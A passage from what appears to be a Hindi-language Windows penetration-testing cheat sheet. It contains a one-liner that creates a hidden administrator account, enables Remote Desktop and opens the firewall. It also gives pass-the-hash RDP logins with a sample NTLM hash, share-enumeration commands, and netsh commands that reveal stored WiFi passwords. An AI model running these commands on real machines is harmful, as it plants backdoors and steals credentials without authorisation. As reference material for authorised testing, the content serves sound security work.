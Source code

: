 ```bash
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

::Connect to RDP (using hash or password)
xfreerdp /u:alice /d:WORKGROUP /pth:b74242f37e47371aff835a6ebcac4ffe /v:10.11.1.49
xfreerdp /u:hacker /d:WORKGROUP /p:Hacker123! /v:10.11.1.49
```
### शेयर्स

शेयर्स एक विंडोज़ संगठनात्मक नेटवर्किंग कॉन्सेप्ट हैं जो एक कंप्यूटर पर फ़ोल्डर या ड्राइव को अन्य कंप्यूटरों के साथ साझा करने की अनुमति देते हैं। शेयर्स का उपयोग फ़ाइल और संसाधनों को साझा करने, नेटवर्क पर काम करने और संगठनात्मक संचालन को सुविधाजनक बनाने के लिए किया जाता है।

शेयर्स को निम्नलिखित तरीकों से एक्सेस किया जा सकता है:

- **UNC पथ**: UNC (Universal Naming Convention) पथ का उपयोग करके, जैसे `\\computername\sharename`, शेयर्स को एक्सेस किया जा सकता है।
- **ड्राइव मैपिंग**: शेयर्स को एक्सेस करने के लिए एक ड्राइव लेटर के साथ उन्हें मैप किया जा सकता है, जैसे `net use X: \\computername\sharename`.
- **शेयर्ड फ़ोल्डर के रूप में माउंट करना**: शेयर्ड फ़ोल्डर को एक लोकल फ़ोल्डर के रूप में माउंट किया जा सकता है, जिससे उपयोगकर्ता उसे सीधे एक्सेस कर सकते हैं।

शेयर्स को एक्सेस करने के लिए उपयोगकर्ता को उचित अनुमतियों की आवश्यकता होती है, जो उन्हें शेयर के मालिक द्वारा प्रदान की जाती हैं। शेयर्स की सुरक्षा को बढ़ाने के लिए, आप अनुमतियों को संशोधित कर सकते हैं, शेयर्स को पासवर्ड से सुरक्षित कर सकते हैं, और अन्य सुरक्षा उपाय अपना सकते हैं।
```bash
net view #Get a list of computers
net view /all /domain [domainname] #Shares on the domains
net view \\computer /ALL #List shares of a computer
net use x: \\computer\share #Mount the share locally
net share #Check current shares
```
### वाईफ़ाई

#### वाईफ़ाई का उपयोग करने के लिए आवश्यक टूल्स

- `netsh wlan show profiles` - सभी उपयोगकर्ताओं के वाईफ़ाई प्रोफ़ाइल दिखाएँ
- `netsh wlan show profile name="PROFILE_NAME" key=clear` - विशेष प्रोफ़ाइल के लिए पासवर्ड दिखाएँ
- `netsh wlan show interfaces` - वाईफ़ाई इंटरफ़ेस की जानकारी दिखाएँ
- `netsh wlan disconnect` - वाईफ़ाई से डिस्कनेक्ट करें
- `netsh wlan connect name="PROFILE_NAME"` - वाईफ़ाई से कनेक्ट करें

#### वाईफ़ाई पासवर्ड का पता लगाना

1. `netsh wlan show profiles` कमांड का उपयोग करके सभी उपयोगकर्ताओं के वाईफ़ाई प्रोफ़ाइल देखें।
2. `netsh wlan show profile name="PROFILE_NAME" key=clear` कमांड का उपयोग करके विशेष प्रोफ़ाइल के पासवर्ड को देखें।

#### वाईफ़ाई से डिस्कनेक्ट करना
